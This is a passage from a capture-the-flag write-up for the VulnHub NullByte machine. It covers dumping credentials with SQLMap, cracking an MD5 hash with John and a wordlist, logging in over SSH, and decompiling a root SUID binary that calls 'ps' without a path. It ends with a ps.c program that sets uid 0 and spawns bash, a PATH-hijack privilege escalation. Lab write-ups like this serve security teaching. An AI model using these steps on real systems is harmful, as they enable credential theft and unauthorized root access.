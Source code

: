 I threw this request at SQLMap and was able to dump out two usernames, and a password hash for one of them:

>1,YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE,ramses,blank

## Hash
The hash is base64 encoded, but we can decode it - it then is revealed to be an MD5. John can take care of the decoded hash:

{% highlight shell %}
root@kali:/opt/vulnhub/nullbyte# john md5.txt --format=Raw-MD5 -w=/usr/share/wordlists/rockyou.txt
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
omega            (?)
1g 0:00:00:00 DONE (2020-10-16 11:26) 100.0g/s 1152Kp/s 1152Kc/s 1152KC/s vainilla..silencio
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

## SSH
Now we can SSH in as *ramses*. Poking around, we can find an SUID binary called **procwatch** in /var/www/backup along with a note saying:

>I have to fix this mess... 

I copy the binary to my own box with **scp** and then decompile it in Ghidra. The decompiled main function looks like this:

{% highlight c %}
undefined4 main(void)
{
  undefined2 local_42;
  undefined local_40;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  local_42 = 0x7370;
  local_40 = 0;
  system((char *)&local_42);
  return 0;
}
{% endhighlight %}

0x7370 is **ps**. So it appears this binary (running as root) is calling **ps**, without specifying the path. Whoops. 

## PS
Here's my new file *ps.c*:

{% highlight c %}
#include <unistd.h>
int main(void)
{
  setuid(0);
  setgid(0);
  system ("/bin/bash");
}
{% endhighlight %}
